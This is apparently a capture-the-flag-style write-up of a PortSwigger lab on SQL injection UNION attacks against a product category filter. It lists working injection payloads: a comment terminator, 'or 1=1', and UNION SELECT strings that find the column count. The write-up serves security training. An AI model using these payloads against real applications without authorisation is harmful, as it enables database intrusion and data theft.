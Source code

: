 
# SQL injection UNION attack, determining the number of columns returned by the query

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values.

---------------------------------------------

Reference: https://portswigger.net/web-security/sql-injection/union-attacks

---------------------------------------------

We see there are 2 values displayed in the table, the name and the price of the products:



![img](images/SQL%20injection%20UNION%20attack,%20determining%20the%20number%20of%20columns%20returned%20by%20the%20query/1.png)

The following payload is accepted and we see the 4 items from Accessories category:

```
/filter?category=Accessories'--
```



![img](images/SQL%20injection%20UNION%20attack,%20determining%20the%20number%20of%20columns%20returned%20by%20the%20query/2.png)

The same happens with this payload, to display all values:

```
/filter?category=Accessories'+or+1=1--
```

We will update the payload to execute a UNION attack and find the query takes 3 parameters and not 2:

```
/filter?category=Accessories'+union+select+NULL,NULL,NULL--
```



![img](images/SQL%20injection%20UNION%20attack,%20determining%20the%20number%20of%20columns%20returned%20by%20the%20query/3.png)


We can also add values instead of using NULL:

```
/filter?category=Accessories'+union+all+select+'0','1','2'--
```



![img](images/SQL%20injection%20UNION%20attack,%20determining%20the%20number%20of%20columns%20returned%20by%20the%20query/4.png)
